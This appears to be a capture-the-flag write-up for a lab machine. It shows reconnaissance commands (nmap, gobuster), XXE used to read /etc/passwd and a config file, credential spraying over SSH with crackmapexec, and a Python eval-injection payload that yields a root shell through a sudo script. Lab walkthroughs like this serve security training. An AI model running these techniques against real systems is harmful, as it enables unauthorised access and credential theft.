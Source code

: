 ## understanding the structure

1. nmapping the server looking for open ports and hints: <code>sudo nmap -p- --min-rate 10000 -oA bountynmap/ports -v 10.10.11.100</code>
![nmap1 results](https://is-going-to-rick-roll.me/1637699944.png)


From the nmap result i can understand that ports <mark>80, and 22</mark> are open

Now I'll run a deeper nmap to check sevrer info and what's actually is open

<code>sudo nmap -sC -sV -oA bountynmap/etc -p 80,22 10.10.11.100</code>
![nmap2 results](https://is-going-to-rick-roll.me/1637699794.png)

<br>

## mapping the website - looking for vulnerabilities in UI 

After opening burp suite and checking all pages and forms i can see the they are not really doing any action.
Besides the portal page thats navigates to http://10.10.11.100/log_submit.php

![burp suite check](https://is-going-to-rick-roll.me/1637762423.png)

this form sends the data i input to the form and encodes in base64
decoding this string returns XML instructions.

try to change the date to XML with XXE

From looking at the pages I can also see that the website is coded in PHP, so I started to run `gobuster` (brute-force tool) on SecLists raft-small-words list.
<code>gobuster dir -w SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o hunterPages.txt -u http://10.10.11.100</code>


![XXE found](https://is-going-to-rick-roll.me/1637762393.png)

<br>

## executing commands/drawing out data from the server

After we found the first vulnerability we can use it and try to draw data, let's try getting the passwd file usign using the XXE.

![XXE](https://is-going-to-rick-roll.me/1637762776.png)

and here we go, it returned all the registered users

save the result in new file and grpe all users:

<code>grep home passwdFile | cut -d: -f1</code>

![users](https://is-going-to-rick-roll.me/1637763224.png)
we have two users: `"syslog", and "development"`

<br>

Now when the brute-force process (using gobuster) has endeed we can take a look at the output (hunterPages.txt) and take a look on all the pages.
From a first look i can find a file that might contain some details "/db.php"

trying to navigate to http://10.10.11.100/db.php returns  200 without any data, so maybe we can try getting this page with XXE


![db file](https://is-going-to-rick-roll.me/1637765282.png)

now the td tag line returns a result including something that might be the db.php encrypted.
decoding it using base64 returns
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "password-was-removed-do-it-yourself";
$testuser = "test";
?>
```

alright now when we have the password we can try and login to a user.
I used `crackmapexec` to try and login to one of the users.

create a file with all the users we found (development and syslog)
run: `crackmapexec ssh 10.10.11.100 -u users.lst -p "m19RoAU0hP41A1sTsq6K"`


##### crackmapexec result
![crackmapexec result](https://is-going-to-rick-roll.me/1637776835.png)

as we can see from the result, we have now the connection info to user: development followed by his password we found.

###### connect via SSH

<code>cat user.txt</code> - Congrats this is the first flag.



<br>

## Time to own the system

run: <code>sudo -l</code> to see what files the current user can run

![sudo -l -> response](https://is-going-to-rick-roll.me/1637778122.png)

The only intresting file is ticketValidator.py, this is also might me our hint.

After a short look i can see that this file is evaluating user input, so it might be vulnerable.

# Conclusions regarding the script

* File must to end with <mark>.md</mark>
* First line in the file must be <mark># Skytrain Inc</mark>
* Second line in the file must to start with <mark>## Ticket to &nbsp;</mark>
* Closed tickets 3rd line will be <mark>__Ticket Code:__</mark> you can also leave it like <mark>__Ticket Code:</mark>
  but line after must to start with <bold>**</bold> and it'll be replaced with ""
* After all these steps and if you pass all the checks It'll check if <code>if int(ticketCode) % 7 == 4:</code> is true
and It'll eval <code>eval(x.replace("**", ""))</code>


<h6>make sure to run this script with sudo</h6>
```s
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**11+__import__("os").system("bash")
```

run: <code>whoami</code> -> congrats you are root!

```s
cd ~
```

```s
cat root.txt
```